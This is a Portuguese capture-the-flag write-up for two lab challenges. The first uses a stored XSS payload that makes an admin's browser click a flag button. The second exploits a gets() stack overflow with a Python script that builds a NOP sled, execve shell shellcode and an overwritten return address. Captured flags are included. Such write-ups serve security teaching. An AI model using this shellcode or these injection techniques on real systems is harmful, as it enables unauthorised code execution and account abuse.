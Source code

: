 # CTF 10

## Desafio #1

O formulário é vulneravél a XSS. Podemos injetar código que clica no botão de
give flag pelo utilizador:
`<script>document.getElementById("giveflag").click();</script>`

Quando o admin for ver a página, clicará no botão de _give flag_.

**Flag:** `flag{7c8e7f4c8d2efee669c07b53101aa730}`

## Desafio #2

A vulnerabilidade está no `gets`: não é verificado o tamanho do buffer. Podemos
rescrever o _return address_ da função e saltar a execução para o nosso código.

Como não existem canários e sabemos o endereço do buffer, é trivial calcular o
FP e a localização do return address.

### Exploit

```py
#!/usr/bin/python3

import sys

# Replace the content with the actual shellcode
shellcode = (
    # "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80" # setuid(0)
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode("latin-1")

# Fill the content with NOP's
content = bytearray(0x90 for i in range(300))

##################################################################
# Put the shellcode somewhere in the payload
fp = 0xffa3e480
sp = fp + 4

# buf_fp_offset
start = len(content) - len(shellcode)
content[start : start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret = fp + 200
L = 4  # Use 4 for 32-bit address and 8 for 64-bit address
for offset in range(100, 200, 4):
    content[offset : offset + L] = (ret).to_bytes(L, byteorder="little")
##################################################################

# Write the content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

**Note:** o endereço em fp é calculado através do endereço devolvido pelo
servidor. Com isto, só criamos o nosso _badfile_ quando nos é pedido o input.

### Flag

`flag{4e15f77b7e667548d1327e4c119561ca}`
